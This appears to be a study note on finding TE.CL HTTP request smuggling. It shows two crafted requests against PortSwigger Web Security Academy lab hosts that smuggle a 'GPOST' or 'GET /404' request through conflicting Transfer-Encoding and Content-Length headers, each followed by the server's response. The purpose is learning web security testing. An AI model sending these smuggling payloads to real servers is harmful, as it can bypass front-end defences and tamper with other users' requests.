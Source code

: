 ### TE.CL
the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header
#### Finding TE.CL
##### using differential responses
- request
```http
POST / HTTP/1.1
Host: 0a3200cf04cedd8280132134009f00db.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Connection: keep-alive\r\n
Transfer-Encoding: chunked\r\n
\r\n
28\r\n
GPOST / HTTP/1.1\r\n
Content-Length: 15\r\n
\r\n
\r\n
0


```
- response
```http
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 27\r\n
\r\n
"Unrecognized method GPOST"
```
**OR**
- request
```http
POST / HTTP/1.1
Host: 0a1400a9045d90718087850f0092005f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Connection: keep-alive
Transfer-Encoding: chunked\r\n
\r\n
29\r\n
GET /404 HTTP/1.1\r\n
Content-Length: 15\r\n


0


```
- response
```http
HTTP/1.1 404 Not Found
Content-Type: application/json; charset=utf-8
Set-Cookie: session=ZxP5vPp2QyzeBn8FJ2Xa6RzpmF1bO84D; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 11\r\n
\r\n
"Not Found"
```
